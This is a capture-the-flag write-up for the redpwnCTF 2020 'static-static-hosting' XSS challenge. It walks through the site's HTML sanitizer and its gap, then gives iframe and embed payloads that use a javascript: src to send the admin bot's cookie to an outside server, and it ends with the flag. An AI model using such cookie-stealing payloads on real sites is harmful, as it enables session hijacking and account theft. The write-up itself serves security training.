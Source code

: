 ```yaml
---
title: static-static-hosting
date: 2020-06-23
tags: web, xss
ctf: redpwnCTF 2020
---
```

## Problem
```
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here

Site: static-static-hosting.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.
```

## Solution
Similarly to [static-pastebin](./static-pastebin), this challenge takes user input, and creates a webpage using said input. The input is encoded into base64 to create a site, and then decodes it from the url to render it. For example, a site with the text ```<p>hi</p>``` generates the URL ```https://static-static-hosting.2020.redpwnc.tf/site/#PHA+dGVzdDwvcD4=```, as ```PHA+dGVzdDwvcD4=``` is the base64 encoding of ```test```.

The challenge also provides a link to submit a paste to the admin of the site, who would visit the link. Thus, this is XSS (cross site scripting) challenge.

Looking at the code to decode a paste, we see that there is some sanization on the input to try to stop XSS attacks:

```js
function display(input) {
    document.documentElement.innerHTML = clean(input);
}

function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

The code removes all ```<script>``` tags, and limits the attributes to src, width, height, alt and class. That means that the img XSS we used in static-pastebin couldn't be used, as it relied on the onerror attribute. We could try a different tag for injection, such as ```<embed>``` for our payload:

```html
<embed src=javascript:fetch('https://api.sunnyzuo.com/'+document.cookie)>
```

Using the same web server for [static-pastebin](./static-pastebin), we can find the cookie of the admin bot and get out flag.

However, this payload didn't work; it functioned when I tested it using Firefox, but I got no response from the bot. After messaging the challenge author and learning that the bot ran on Chrome, I created a modified payload, using ```<iframe>``` instead:

```html
<iframe src=javascript:fetch('https://api.sunnyzuo.com/'+document.cookie)>
```

This payload ran fine, and we can find the flag in the server logs:
```
/flag=flag{wh0_n33d5_d0mpur1fy}
```

**Flag:** ```flag{wh0_n33d5_d0mpur1fy}```